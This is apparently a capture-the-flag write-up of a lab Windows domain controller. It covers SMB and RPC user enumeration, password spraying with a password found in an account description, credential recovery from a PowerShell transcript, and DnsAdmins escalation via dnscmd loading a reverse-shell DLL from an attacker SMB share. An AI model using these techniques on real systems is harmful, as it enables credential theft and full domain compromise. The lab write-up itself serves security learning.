## RUSTSCAN

PORT      STATE  SERVICE      REASON          VERSION
53/tcp    open   domain       syn-ack ttl 127 Simple DNS Plus
88/tcp    open   kerberos-sec syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2023-01-11 11:59:11Z)
135/tcp   open   msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open   netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open   ldap         syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
445/tcp   open   microsoft-ds syn-ack ttl 127 Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGABANK)
464/tcp   open   kpasswd5?    syn-ack ttl 127
593/tcp   open   ncacn_http   syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open   tcpwrapped   syn-ack ttl 127
3268/tcp  open   ldap         syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
3269/tcp  open   tcpwrapped   syn-ack ttl 127
5985/tcp  open   http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open   mc-nmf       syn-ack ttl 127 .NET Message Framing
47001/tcp open   http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open   msrpc        syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open   msrpc        syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open   msrpc        syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open   msrpc        syn-ack ttl 127 Microsoft Windows RPC
49671/tcp open   msrpc        syn-ack ttl 127 Microsoft Windows RPC
49674/tcp open   msrpc        syn-ack ttl 127 Microsoft Windows RPC
49675/tcp open   ncacn_http   syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49680/tcp open   msrpc        syn-ack ttl 127 Microsoft Windows RPC
49862/tcp closed unknown      reset ttl 127
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
Host script results:
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 14044/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 52471/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 55070/udp): CLEAN (Timeout)
|   Check 4 (port 56705/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery:
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Resolute
|   NetBIOS computer name: RESOLUTE\x00
|   Domain name: megabank.local
|   Forest name: megabank.local
|   FQDN: Resolute.megabank.local
|_  System time: 2023-01-11T04:00:11-08:00
| smb2-security-mode:
|   311:
|_    Message signing enabled and required
|_clock-skew: mean: 2h47m02s, deviation: 4h37m07s, median: 7m02s
| smb-security-mode:
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-time:
|   date: 2023-01-11T12:00:13
|_  start_date: 2023-01-11T11:53:36

* * *
## SMB
Running enum4linux on the host shows us:

 ===============================================================
|    Domain Information via LDAP for resolute.megabank.local    |
 ===============================================================
[*] Trying LDAP
[+] Appears to be root/parent DC
[+] Long domain name is: megabank.local
 ====================================================
|    SMB Dialect Check on resolute.megabank.local    |
 ====================================================
[*] Trying on 445/tcp
[+] Supported dialects and settings:
Supported dialects:
  SMB 1.0: true
  SMB 2.02: true
  SMB 2.1: true
  SMB 3.0: true
  SMB 3.1.1: true
Preferred dialect: SMB 3.0
SMB1 only: false
SMB signing required: true
 ======================================================================
|    Domain Information via SMB session for resolute.megabank.local    |
 ======================================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found domain information via SMB
NetBIOS computer name: RESOLUTE
NetBIOS domain name: MEGABANK
DNS domain: megabank.local
FQDN: Resolute.megabank.local
Derived membership: domain member
Derived domain: MEGABANK
 ================================================
|    Users via RPC on resolute.megabank.local    |
 ================================================
[*] Enumerating users via 'querydispinfo'
[+] Found 27 user(s) via 'querydispinfo'
[*] Enumerating users via 'enumdomusers'
[+] Found 27 user(s) via 'enumdomusers'
[+] After merging user results we have 27 user(s) total:
'10101':
  username: melanie
  name: (null)
  acb: '0x00000010'
  description: (null)
'10102':
  username: zach
  name: (null)
  acb: '0x00000010'
  description: (null)
'10103':
  username: simon
  name: (null)
  acb: '0x00000010'
  description: (null)
'10104':
  username: naoki
  name: (null)
  acb: '0x00000010'
  description: (null)
'1105':
  username: ryan
  name: Ryan Bertrand
  acb: '0x00000210'
  description: (null)
'1111':
  username: marko
  name: Marko Novak
  acb: '0x00000210'
  description: Account created. Password set to Welcome123!
'500':
  username: Administrator
  name: (null)
  acb: '0x00000210'
  description: Built-in account for administering the computer/domain
'501':
  username: Guest
  name: (null)
  acb: '0x00000215'
  description: Built-in account for guest access to the computer/domain
'502':
  username: krbtgt
  name: (null)
  acb: '0x00000011'
  description: Key Distribution Center Service Account
'503':
  username: DefaultAccount
  name: (null)
  acb: '0x00000215'
  description: A user account managed by the system.
'6601':
  username: sunita
  name: (null)
  acb: '0x00000010'
  description: (null)
'6602':
  username: abigail
  name: (null)
  acb: '0x00000010'
  description: (null)
'6603':
  username: marcus
  name: (null)
  acb: '0x00000010'
  description: (null)
'6604':
  username: sally
  name: (null)
  acb: '0x00000010'
  description: (null)
'6605':
  username: fred
  name: (null)
  acb: '0x00000010'
  description: (null)
'6606':
  username: angela
  name: (null)
  acb: '0x00000010'
  description: (null)
'6607':
  username: felicia
  name: (null)
  acb: '0x00000010'
  description: (null)
'6608':
  username: gustavo
  name: (null)
  acb: '0x00000010'
  description: (null)
'6609':
  username: ulf
  name: (null)
  acb: '0x00000010'
  description: (null)
'6610':
  username: stevie
  name: (null)
  acb: '0x00000010'
  description: (null)
'6611':
  username: claire
  name: (null)
  acb: '0x00000010'
  description: (null)
'6612':
  username: paulo
  name: (null)
  acb: '0x00000010'
  description: (null)
'6613':
  username: steve
  name: (null)
  acb: '0x00000010'
  description: (null)
'6614':
  username: annette
  name: (null)
  acb: '0x00000010'
  description: (null)
'6615':
  username: annika
  name: (null)
  acb: '0x00000010'
  description: (null)
'6616':
  username: per
  name: (null)
  acb: '0x00000010'
  description: (null)
'6617':
  username: claude
  name: (null)
  acb: '0x00000010'
  description: (null) 

Trying to login with markos account into WINrm doesn't work so i guess we need to check for shares, but again nothing is showing up. Checking markos credentials shows that maybe that was a rabbit hole:

Now using markos password from his account description on all users from RPC enumeration we found another user that works:

┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# crackmapexec smb resolute.megabank.local -u resolute_users.txt -p 'Welcome123!'
SMB         resolute        445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         resolute        445    RESOLUTE         [+] megabank.local\melanie:Welcome123!

No juicy SMB shares (using Melanies account):
 =================================================
|    Shares via RPC on resolute.megabank.local    |
 =================================================
[*] Enumerating shares
[+] Found 5 share(s):
ADMIN$:
  comment: Remote Admin
  type: Disk
C$:
  comment: Default share
  type: Disk
IPC$:
  comment: Remote IPC
  type: IPC
NETLOGON:
  comment: Logon server share
  type: Disk
SYSVOL:
  comment: Logon server share
  type: Disk
[*] Testing share ADMIN$
[+] Mapping: DENIED, Listing: N/A
[*] Testing share C$
[+] Mapping: DENIED, Listing: N/A
[*] Testing share IPC$
[+] Mapping: OK, Listing: NOT SUPPORTED
[*] Testing share NETLOGON
[+] Mapping: OK, Listing: OK
[*] Testing share SYSVOL
[+] Mapping: OK, Listing: OK

* * *
## DNS
Checking results from RUSTSCAN we can see that the real FQDN should be megabank.local
 
* * *
## User.txt
Loggin in with melanies user and password with Evil-Winrm gets us the user.txt flag


* * *
## Shell as Melanie
Starting our enumeration we know we have 3 users on machine, melanie,ryan and Administrator.
We are not part of any special group nor have we special permissions:


Uploading winpeas.bat fails with permission access denied, so let's try to upload sharphound and generate some AD data instead.

Analyzing this picture i guess we really need to horizontal escalate to ryan since he is part of group contractors and from there we can better access to system.

Now i had to check for tips and apparently we can use ls -force in powershell to show all hidden files
*Evil-WinRM* PS C:\> ls -force

    Directory: C:\

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d--hs-        12/3/2019   6:40 AM                $RECYCLE.BIN
d--hsl        9/25/2019  10:17 AM                Documents and Settings
d-----        9/25/2019   6:19 AM                PerfLogs
d-r---        9/25/2019  12:39 PM                Program Files
d-----       11/20/2016   6:36 PM                Program Files (x86)
d--h--        9/25/2019  10:48 AM                ProgramData
d--h--        12/3/2019   6:32 AM                PSTranscripts
d--hs-        9/25/2019  10:17 AM                Recovery
d--hs-        9/25/2019   6:25 AM                System Volume Information
d-----        1/11/2023   5:47 AM                Temp
d-r---        12/4/2019   2:46 AM                Users
d-----        12/4/2019   5:15 AM                Windows
-arhs-       11/20/2016   5:59 PM         389408 bootmgr
-a-hs-        7/16/2016   6:10 AM              1 BOOTNXT
-a-hs-        1/11/2023   3:53 AM      402653184 pagefile.sys

Surfing thru all the hidden folders we get a powershell transcript for the user ryan:


more specifically we can grab ryan's password:
Command start time: 20191203063515
**********************
PS>CommandInvocation(Invoke-Expression): "Invoke-Expression"
>> ParameterBinding(Invoke-Expression): name="Command"; value="cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!

* * *
## Shell as Ryan
Loggin in with ryan's account we find a note on the desktop:

Email to team:

- due to change freeze, any system changes (apart from those to the administrator account) will be automatically reverted within 1 minute

P.S.: Now we know why Winpeas fails after one minute..
Checking his permissions he
`USER INFORMATION
----------------

User Name     SID
============= ==============================================
megabank\ryan S-1-5-21-1392959593-3013219662-3596683436-1105

GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                            Attributes
========================================== ================ ============================================== ===============================================================
Everyone                                   Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
MEGABANK\Contractors                       Group            S-1-5-21-1392959593-3013219662-3596683436-1103 Mandatory group, Enabled by default, Enabled group
MEGABANK\DnsAdmins                         Alias            S-1-5-21-1392959593-3013219662-3596683436-1101 Mandatory group, Enabled by default, Enabled group, Local Group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
`

He is part of 2 groups, contractor and dns admin, we should check with bloodhound againg..
Apparently being part of DNSAdmin is promising, reading from this source: https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges#dnsadmins

And more specifically this part: https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges#execute-arbitrary-dll

We can forge a malicious dll with a revshell to metasploit handler and inject that into DNS service(runs as NT AUTHORITY\SYSTEM).

First we setup the Metasploit listener with Multi/handler.


Then we create a malicious dll with a revshell in it:


Then we upload the dll and we remap the DNS service to load an arbitrary dll:


Now by stopping and starting dns we should get a revshell in out Metasploit listener as NTSystem
Edit: it's not working with ddl shipped locally, i guess we need to serve i from our smb share instead

Setup a SMB share to server our malicious dll:


And now we do the same but we point to smbshare instead:
dnscmd /config /serverlevelplugindll \\10.10.14.3\yovecio\rev.dll
sc.exe stop dns
sc.exe start dns

Now we can se tha file is beeing served:


And we get last flag from meterpreter:


* * *